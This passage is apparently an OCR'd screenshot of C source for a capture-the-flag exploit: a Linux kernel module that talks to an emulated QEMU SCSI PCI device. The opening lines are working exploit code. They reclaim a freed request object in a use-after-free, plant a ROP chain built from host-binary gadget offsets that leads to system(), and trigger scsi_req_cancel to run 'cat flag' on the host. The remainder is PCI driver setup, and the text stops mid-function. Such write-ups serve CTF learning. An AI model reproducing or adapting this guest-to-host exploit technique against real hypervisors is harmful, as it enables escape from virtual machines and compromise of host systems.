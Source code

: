```c
    pl->cancel = 0;
    pl->cancel_notifiers = &cur_req->notify; // pointer to first entry in list
    pl->notify = text+0x2ae9fd; // add rsp, 0x10 ; pop rbx ; pop rbp ; ret
    pl->next = text+0x2df11b; // leave ; pop rsi ; dec ecx ; ret
    pl->rop[0] = text+0x3909c9; // pop rdi ; ret
    pl->rop[1] = (u64)&cur_req->shell_cmd;
    pl->rop[2] = text+0x204948; // system.plt
    strcpy(pl->shell_cmd, "cat flag");
    add_cmd_data(pl, uaf_sz); // reclaim freed state->cur_req

    send_req(req); // trigger scsi_req_cancel on reclaimed uaf request
    printk(KERN_INFO "[!!!] shouldve pwned\n");
}

int pci_probe(struct pci_dev* dev, const struct pci_device_id* id) {
    int ret;

    printk(KERN_INFO "[+] pci_probe called\n");
    ret = pci_enable_device(dev);
    if (ret < 0) {
        printk(KERN_INFO "[x] failed to enable pci device\n");
        return ret;
    }
    printk(KERN_INFO "[+] pci device enabled\n");

    ret = pci_request_region(dev, 0, "ctfregion0");
    if (ret) {
        printk(KERN_INFO "[x] failed to request region\n");
        return ret;
    }

    mmio = pci_iomap(dev, 0, 0);
    if (!mmio) {
        printk(KERN_INFO "[x] failed to map mmio\n");
        return -EFAULT;
    }
    printk(KERN_INFO "[+] mapped mmio %p\n", mmio);

    return 0;
};

void pci_remove(struct pci_dev* dev) {
    printk(KERN_INFO "[+] removing pci device\n");
    pci_release_region(dev, 0);
};

#define QEMU_VENDOR_ID 0x1234
#define CTF_DEVICE_ID 0x11e9
static struct pci_device_id pci_ids[] = {
    {PCI_DEVICE(QEMU_VENDOR_ID, CTF_DEVICE_ID)},
    {0,}
};
MODULE_DEVICE_TABLE(pci, pci_ids);

static struct pci_driver pci_driver = {
    .name = "ctf_scsi_driver",
    .id_table = pci_ids,
    .probe = pci_probe,
    .remove = pci_remove
};

static int __init ctf_driver_init(void) {
    int ret;
```
